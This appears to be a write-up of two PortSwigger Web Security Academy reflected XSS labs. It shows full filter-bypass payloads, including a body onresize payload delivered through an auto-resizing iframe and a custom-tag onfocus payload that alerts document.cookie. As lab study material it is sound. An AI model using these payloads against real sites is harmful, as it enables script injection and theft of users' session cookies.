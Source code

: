 First, to get the unblocked tag, use the tag list from the [cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet). we discovered that the body tag is not blocked

Next, we identified an unblocked attribute. One suitable option is `onresize`.

We can construct a payload: `<body onresize=print()>`

To automatically trigger the payload, we can add the onload attribute to modify the element's style dynamically: `onload=this.style.width='100px'`

The following input field, we can escape the input by appending `">` to the payload.:
```html
<input type="text" placeholder="Search the blog..." name="search">
```

The rendered html should be 
```html
<input type="text" placeholder="Search the blog...">
<body onresize=print()>" 
    onload=this.style.width='100px'>
    name="search">
```

The constructed payload is: `"><body onresize=print()>" onload=this.style.width='100px'>`

So the final payload is `<iframe src="https://0a7d004604e317cd808876a6008e001d.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>`

### Lab: Reflected XSS into HTML context with all tags blocked except custom ones

This lab blocks all HTML tags except custom ones.

To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts `document.cookie`. 

With a custom tag `<custom-tag></custom-tag>`, the html rendered as:
```html
<h1>0 search results for '
    <custom-tag></custom-tag>
    '
</h1>
```
The payload `<custom-tag onmouseover='alert("test")'></custom-tag>` create a html as:
```html
<h1>0 search results for '
    <custom-tag onmouseover='alert("test")'></custom-tag>
    '
    </h1>
```
We can construct a payload like this:

`<custom-tag onfocus='alert(document.cookie)' id='pwned' tabindex='1'>`

So that whenever the tager visit the url `https://baseURL/?search=%3Ccustom-tag+onfocus%3D%27alert%28document.cookie%29%27+id%3D%27pwned%27+tabindex%3D%271%27%3E#pwned`

The onfocus event is triggered, executing `alert(document.cookie)`
